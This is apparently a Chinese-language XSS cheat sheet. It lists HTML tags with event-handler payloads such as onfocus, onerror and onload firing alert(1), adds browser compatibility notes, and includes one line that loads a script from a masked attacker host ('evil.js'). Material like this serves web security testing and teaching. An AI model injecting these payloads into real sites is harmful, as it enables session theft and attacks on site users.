 ### select 标签

```html
<select> 标签用来创建下拉列表。
<select onfocus=alert(1)></select>
<select onfocus=alert(1) autofocus>
```

### iframe 标签

```php
<iframe> 标签会创建包含另外一个文档的内联框架
    <iframe onload=alert(1);></iframe>
```

### audio 标签

```html
<audio> 标签定义声音，比如音乐或其他音频流。
<audio src=x  onerror=alert(1);>
```

### textarea 标签

```html
`<textarea>` 标签定义一个多行的文本输入控件。
<textarea onfocus=alert(1); autofocus>
```

### marquee 标签

```html
<marquee onstart=alert(1)></marquee> //Chrome不行，火狐和IE都可以
```

### isindex 标签

```html
<isindex type=image src=1 onerror=alert(1)>//仅限于IE 
```

### link 标签

`<link>` 标签定义文档与外部资源的关系。在无CSP的情况下才可以使用：

```html
<link rel=import href="http://47.xxx.xxx.72/evil.js">
```

### a 标签

```html
<a href="javascript:alert(1);">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>
```
